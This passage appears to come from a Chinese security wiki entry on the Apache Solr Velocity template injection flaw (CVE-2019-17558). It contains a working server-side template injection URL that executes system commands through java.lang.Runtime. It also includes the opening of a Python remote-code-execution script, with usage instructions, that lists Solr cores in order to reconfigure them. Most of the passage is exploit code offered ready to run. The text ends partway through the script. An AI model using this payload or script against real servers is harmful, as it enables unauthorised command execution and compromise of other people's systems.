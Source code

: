 **ssit**

    http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=
    #set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-17558)ApacheSolr代码注入漏洞/media/rId31.jpg)

注意到 状态码是`400`，`而不是200`，出现`500`的情况可能是 异常报错。

### poc

**usage**

> python solr\_rce.py http://www.0-sec.org:8983 command

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-17558)ApacheSolr代码注入漏洞/media/rId33.jpg)

    #coding=utf-8

    import requests
    import sys
    import json

    banner = '''
                                _             _____       _        _____   _____ ______ 
         /\                    | |           / ____|     | |      |  __ \ / ____|  ____|
        /  \   _ __   __ _  ___| |__   ___  | (___   ___ | |_ __  | |__) | |    | |__   
       / /\ \ | '_ \ / _` |/ __| '_ \ / _ \  \___ \ / _ \| | '__| |  _  /| |    |  __|  
      / ____ \| |_) | (_| | (__| | | |  __/  ____) | (_) | | |    | | \ \| |____| |____ 
     /_/    \_\ .__/ \__,_|\___|_| |_|\___| |_____/ \___/|_|_|    |_|  \_\\_____|______|
              | |                                                                       
              |_|                                                                       
                       Apache Solr Velocity模板远程代码执行
                             2019-10-30  17:30
                             python By Jas502n
    >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
    '''
    print banner

    def get_code_name(url):
        if url[-1] == '/':
            url = url[:-1].split('\n')[0]
        else:
            url = url.split('\n')[0]
            
        core_url = url + '/solr/admin/cores?indexInfo=false&wt=json'
        print '[+] Querying Core Name: '+core_url,'\n'
        proxies = {"http":"http://127.0.0.1:8080"}
        try:
            # r = requests.get(core_url,proxies=proxies)
            r = requests.get(core_url)
            if r.status_code == 200 and 'responseHeader' in r.content and 'status' in r.content:
                json_str = json.loads(r.content)
                for i in json_str['status']:
                    core_name_url = url + '/solr/' + i + '/config'
                    print core_name_url
                    update_queryresponsewriter(core_name_url)
            else:
                print "No core name exit!"
        except:
            pass